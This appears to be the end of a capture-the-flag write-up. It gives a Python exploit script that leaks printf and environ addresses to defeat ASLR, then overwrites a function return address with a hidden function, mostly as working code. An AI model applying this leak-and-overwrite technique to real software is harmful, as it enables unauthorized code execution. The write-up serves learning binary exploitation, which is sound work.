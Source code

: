 Perfect ! We have all the elements to exploit this binary.

### Exploitation

The final exploitation is:

```python
def exploit(p, elf, libc):

    printf_offset  = libc.symbols['printf']
    environ_offset = libc.symbols["environ"]

    # Trigger printf leak by recycling 
    for i in range(0,6):
        p.recvuntil(b'> ')
        p.sendline('2')
        p.recvuntil(b'> ')
        p.sendline('1')
        p.recvuntil(b'> ')
        p.sendline('n')

    # Read printf leak by recycling 
    data = p.recvuntil(b'> ')
    pattern = 'his gift: .+\[(0x[0-9a-f]+)\]'
    result = re.search(pattern, str(data))

    if not result:
        print("FAIL")
        exit(1)

    leak_printf = int(result[1], 16)

    print("Leak printf: %x - Printf offset: %x" % (leak_printf, printf_offset))

    libc_base = leak_printf - printf_offset

    print("Libc base: %x" % libc_base)
    print("Environ read addr %x" % (environ_offset + libc_base))

    # Trigger environ leak by recycling
    for i in range(6, 10):
        p.sendline("2")
        p.recvuntil(b"> ")
        p.sendline("1")
        p.recvuntil(b"> ")
        p.sendline("n")
        p.recvuntil(b"> ")

    toSend = hex(environ_offset + libc_base)
    p.sendline(toSend)
    environ_leak = u64(p.recvuntil(b"> ").split(b"\n")[0][-6:] + b"\x00\x00")
    print("Environ value: %x" % environ_leak)

    fct_hidden_resources = 0x4010B5

    target = environ_leak - 280  # 280 with dbg #288 into the remote

    # Use plant functionnality to overwrite function return
    p.sendline("1")
    p.recvuntil(b"> ")
    p.sendline("0x%08x" % target)
    p.recvuntil(b"> ")
    p.sendline("0x%08x" % fct_hidden_resources)

```